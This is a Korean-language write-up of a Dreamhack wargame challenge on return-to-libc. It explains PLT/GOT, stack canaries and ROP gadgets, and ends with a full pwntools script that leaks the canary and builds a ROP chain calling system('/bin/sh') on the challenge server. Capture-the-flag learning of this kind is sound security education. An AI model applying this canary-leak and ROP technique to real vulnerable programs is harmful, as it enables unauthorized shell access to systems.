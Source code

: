 ```yaml
---
tags: [dreamhack, wargame, write-up]		
---
```


@PLT

ELF 바이너리에서 외부 바이너리 함수(system, puts, printf 등)은 실행파일 안에 실제 코드가 없고, glibc 같은 외부에서 제공된다.

근데 어디 있는지는 런타임에만 알 수 있어서 아래와 같이 동작한다.

1. PLT : 실행파일에 고정된 점프 테이블
2. GOT (Global Offset Table) : 실제 함수 주소를 담는 테이블 (런타임에 채워짐)

```bash
main() → call system@plt
```

→ PLT → GOT (비어있음)
→ dynamic linker가 찾음
→ GOT에 진짜 system 주소 넣음
→ PLT → GOT (진짜 주소 있음)
→ system 함수 실행

![Image](/assets/img/rtl/image1.png)

![Image](/assets/img/rtl/image2.png)

![Image](/assets/img/rtl/image3.png)

카나리는 보통 스택 보호(stack canary) 기능의 일부인데, 이 값은 프로세스가 실행될 때마다 새로 생성된다. 즉, 카나리는 프로세스 단위로 고정된다.

해당 프로그램은 한 세션에서 두 번의 read를 사용하기 때문에 첫 read에서 canary의 값을 얻어내고, 두번째 read에서 해당 canary 값을 포함한 payload를 전송하여 return address를 system(/bin/sh) 주소로 변경시키면 되는 문제로 추정된다.

리턴주소를 조작해서 libc에 있는 함수(system 등)를 호출하는 기술을 RTL(Return to Libc)라고하는데, 

32bit 환경과 64bit 환경에서의 RTL은 차이가 있다.

32bit에서는 함수 인자를 스택에 push해서 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p32(system_addr)
payload += p32(exit_addr)         # system 끝나고 exit 호출할 주소
payload += p32(binsh_addr)        # system의 인자
```

64bit에서는 인자를 스택이 아닌 레지스터로 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

단순히 RET를 덮는 것 만으로는 안 되고, system()을 호출하기 전에 RDI에 우리가 원하는 값을 직접 넣어줘야 한다.

그래서 필요한 게 바로 ROP 가젯(pop rdi; ret)이다.

해당 문제는 64bit환경이다.

따라서 우리가 알아내야 할 정보는 system() 주소, binsh 문자열 주소, ROP 가젯, canary 이다.

1. system()

![Image](/assets/img/rtl/image4.png)

system 함수의 PLT , GOT 주소는 위와 같이 찾을 수 있다.

우리는 PLT 주소를 사용할 것이기 때문에 필요한 값은 “0x4005d0”이다.

1. binsh

![Image](/assets/img/rtl/image5.png)

pwndbg의 search 명령어를 사용하면 binsh의 주소가 3개 뜨는데, system 함수의 경우 인자로 문자열의 주소를 필요로 하기 때문에 우리에게 필요한 주소는 “0x400874”가 된다.

1. canary

![Image](/assets/img/rtl/image6.png)

buf부터 rbp까지의 거리: 0x40

buf부터 canary까지의 거리: 0x40-0x08 = 0x38

1. ROP gadget

```bash
ROPgadget --binary ./rtl | grep "pop rdi"
```

![Image](/assets/img/rtl/image7.png)

ROP 가젯 : 0x0000000000400853

그리고 여기에 추가적으로,

현재 버퍼를 오버플로우 시켜서 → 카나리 덮고 → SFP 덮고 → 리턴주소를 덮는 과정에서 우리가 덮는 리턴 주소 때문에 스택 포인터(rsp)가 8바이트 밀리는 현상이 발생할 수 있다.

그런데 system()이나 puts() 같은 함수들은 내부적으로 SSE 명령어 등 16바이트 정렬이 필요한 명령어를 쓰는 경우가 있다.

따라서 system() 호출 직전에 ret 가젯을 추가해서 현재 깨져있는 rsp를 +8 올려서 정렬을 맞춰줘야 한다.

1. ret

```bash
ROPgadget --binary ./rtl | grep "ret$"
```

![Image](/assets/img/rtl/image8.png)

```bash
from pwn import *

p = remote('host3.dreamhack.games', 15020)

pop_rdi_ret = 0x400853
bin_sh_addr = 0x400874
system_plt = 0x4005d0
ret = 0x400596

payload = b'A'*0x39
p.sendafter(b'Buf: ',payload)
p.recvuntil(payload)

canary = u64(p.recv(7).rjust(8, b"\x00"))
print('canary', hex(canary))

payload = b'A'*0x38
payload += p64(canary)
payload += b'B'*8
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_plt)

p.sendafter(b'Buf: ', payload)
p.interactive()
```

![Image](/assets/img/rtl/image9.png)